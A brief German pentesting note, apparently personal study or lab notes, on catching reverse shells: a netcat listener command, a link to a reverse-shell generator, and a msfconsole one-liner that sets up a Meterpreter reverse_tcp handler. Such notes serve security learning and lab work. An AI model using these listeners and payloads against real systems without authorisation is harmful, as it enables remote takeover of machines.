

Einfaches Reverse Shell Beispiel.

Listener auf Kali mit `nc`

```sh
$ nc -vv -l -p 9001
# -v           verbose [use twice to be more verbose]
# -l           listen mode, for inbound connects
# -p port      local port number
```

Reverse shell "Generator":  [www.revshells.com](https://www.revshells.com)



Interessante Option `-x` von `msfconsole`:

```sh
$ msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.10.10; set lport 9001; exploit"
```

